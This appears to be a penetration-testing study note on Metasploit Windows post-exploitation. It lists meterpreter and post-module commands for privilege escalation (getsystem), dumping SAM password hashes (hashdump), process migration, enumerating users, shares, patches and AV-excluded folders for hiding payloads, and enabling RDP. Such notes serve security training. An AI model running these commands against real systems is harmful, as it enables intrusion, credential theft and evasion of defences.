 # a - Windows Post Exploitation

## <mark style="color:red;">**Windows Post Exploitation Modules**</mark>

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to:
  * Enumerate user privileges
  * Enumerate logged on users
  * VM check
  * Enumerate installed programs
  * Enumerate AVs
  * Enumerate computers connected to domain
  * Enumerate installed patches
  * Enumerate shares

## **Practical Demonstration**

<pre class="language-bash"><code class="lang-bash"># meterpreter on windows.
meterpreter > sysinfo
meterpreter > help # help menu.
meterpreter > getsystem # Attempt to elevate privileges on the target system through Token Impersonation..
meterpreter > hashdump # Dump the hashes from the SAM database
meterpreter > show_mount # Show all the drives on the target system (fixed or removable drives).
meterpreter > ps # list all the processes.
meterpreter > migrate &#x3C;PID> # Migrate to another process

# post exploitation modules.
msf5 > use post/windows/archmigrate #Migrate to another architecture
msf5 > use post/windows/manage/migrate # Create a new process and migrate to it.
msf5 > use post/windows/gather/win_privs #Return privileges of the current user
msf5 > use post/windows/gather/enum_logged_on_users # Enumerate logged on and previously logged on users
msf5 > use post/windows/gather/checkvm #Check if the system is running inside a VM.
msf5 > use post/windows/gather/enum_applications # Enumerate installed application on the windows target system
msf5 > use post/windows/gather/<a data-footnote-ref href="#user-content-fn-1">enum_av_excluded</a> # Enumerate folders excluded by WIndows AV scans, this can be useful as we can store our payloads there.
msf5 > use post/windows/gather/enum_computers # Enumerate computers part of the target system primary domain
msf5 > use post/windows/gather/enum_patches # Enumerate windows applied patches.
msf5 > use post/windows/gather/enum_shares # Enumerate windows SMB share.
msf5 > use post/windows/manage/enable_rdp # Allow to enable RDP.
</code></pre>
